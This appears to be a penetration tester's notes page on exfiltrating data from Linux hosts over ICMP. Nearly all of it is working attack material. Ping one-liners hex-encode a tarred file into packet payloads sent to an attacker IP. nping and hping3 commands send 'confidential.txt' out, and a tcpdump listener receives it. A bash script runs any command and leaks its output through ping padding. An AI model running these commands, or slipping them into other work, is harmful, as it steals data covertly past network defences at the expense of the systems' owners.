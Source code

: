 # Usage

## 01 - Living off the Land

```
$ tar zcf - file.txt | xxd -p -c 16 | while read line; do ping -p $line -c 1 -q <attacker_IP>; done

$ tar zcf - file.txt | xxd -p -c 4 | while read line; do ping -p $line -c 1 -q <attacker_IP>; done
```

## 02 - Nping

```
$ nping --icmp <attacker_IP> --data-string "file.txt" -c 1
```

## 03 - Hping3

### 3.1 - Sending to Hping3

```
# hping3 -I <interface> -9 <IP> -e MYSIG > confidential.txt
```

The sender

```
# hping3 <attacker_IP> --icmp --sign MSGID1 -d 50 -c 1 --file confidential.txt
```

### 3.2 - Sending to `tcpdump`

We will need a maximum payload size of `1500`.

```
# ip address show eth0 | grep mtu
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
```

Send the file to the attacker's server.

```
# hping3 -1 -E file.txt -u -d 1500 <attacker_IP>
```

Receive the incoming pings with the file.

```
# tcpdump -i eth0 -nX
```

## 04 - Bash Script

```bash
#!/bin/bash

echo "${@:2}"

if [[ -z "$1" ]] || [[ -z "$2" ]];
then
    echo "Usage: $0 <destination> <command>"
    exit 1
fi

DEST=$1
CMD=${@:2}
OUTPUT=$($CMD | xxd -p -c 16)

ORG=$IFS
IFS=$(echo -en "\n\b")

for ROW in ${OUTPUT[@]}
do
    if [[ ${#ROW} = 32 ]]; then
        PAYLOAD=$ROW
    else
        PAD=$(printf "%0$(expr 32 - ${#ROW})d" 0)
        PAYLOAD=$ROW$PAD
    fi
    ping -c 1 -p $PAYLOAD $DEST
done
```

Usage

```
$ chmod +x icmp.sh

$ ./icmp.sh <attacker_IP> file.txt
```

---
## References

### Backlinks

- [[TCPDump]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Linux/Network Protocols/ICMP/Server]]

### Dale Hobbs

- [Dale Hobbs: Data Exfiltration with Hping3](https://www.phoenixinfosec.com/post/data-exfiltration-with-hping3)
